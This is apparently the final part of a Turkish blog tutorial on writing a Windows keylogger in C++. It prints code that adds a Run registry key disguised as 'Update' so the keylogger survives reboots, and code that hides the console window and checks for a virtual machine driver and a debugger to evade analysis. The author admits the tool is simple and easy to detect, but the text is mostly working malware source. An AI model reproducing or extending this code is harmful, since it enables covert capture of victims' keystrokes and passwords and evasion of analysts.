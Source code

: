 Temel'in temel'i güvenlik önlemlerimizi aldık, şuan yapmamız tek şey kalıcılığını sağlamak. Peki nasıl yapacağız?

## Persistence

Persistence temeli olan kayıt defterine ekleme olayı, keylogger'ın her seferinde tekrar açmak yerine makine açıldığı an otomatik keylogger'ın da açılmasını sağlıyor. Satır satır anlatmak gerekirse, HKEY winapi'de register'e müdahil etmenizi sağlayan veri tipi, RegCreateKey, sizin bir key açmanızı, SetValueEx ise açtığınız key'e değer girmenizi sağlıyor.

```cpp
HKEY hKey;
TCHAR reg_path[2500] = "C:\\Users\\j\\Desktop\\keylog.exe";
DWORD lpath = strlen(reg_path);
RegCreateKey(HKEY_CURRENT_USER,(LPCSTR)"Software\\Microsoft\\Windows\\CurrentVersion\\Run",&hKey);
RegSetValueEx(hKey,(LPCSTR)"Update",0,REG_SZ,(BYTE *)reg_path,sizeof(reg_path));
RegCloseKey(hKey);
```
<img src="/resimler/keylogger/Reg1.png">

## End
Bitmiş hali bu şekilde, bu zararlı yazılım farkındayım çok basit. Amacım hızlı bir şekilde blog yazısı yazıp, yayınlamaktı. Testine gelirsek, sorunsuz çalışıyor fakat iki döngüden dolayı çok fazla CPU kullanıyor ve kullanılan yöntemler malware analizci tarafından çok basitce tespit edilebilir yöntemler. 

```cpp
#include <iostream>
#include <string>
#include <fstream>
#include <stdio.h>
#include <windows.h>


int Keylogger();
int Security();
int Persistence();
int main() {
	Persistence();
	Security();
	
	
}

int Security(){
	HWND putin;	
	AllocConsole();
	putin = FindWindow("ConsoleWindowClass",NULL);
	ShowWindow(putin,0);
	FILE *detect;
	if(fopen("C:\\Windows\\System32\\drivers\\vmhgfs.sys","r")){
		MessageBox(NULL,"Virtualbox Detected!","Error",  MB_HELP);
	}
	else{
		Keylogger();
	}
	if(IsDebuggerPresent()){
		MessageBox(NULL,"Debugger Detected!","Error",  MB_HELP);
	}	
}
```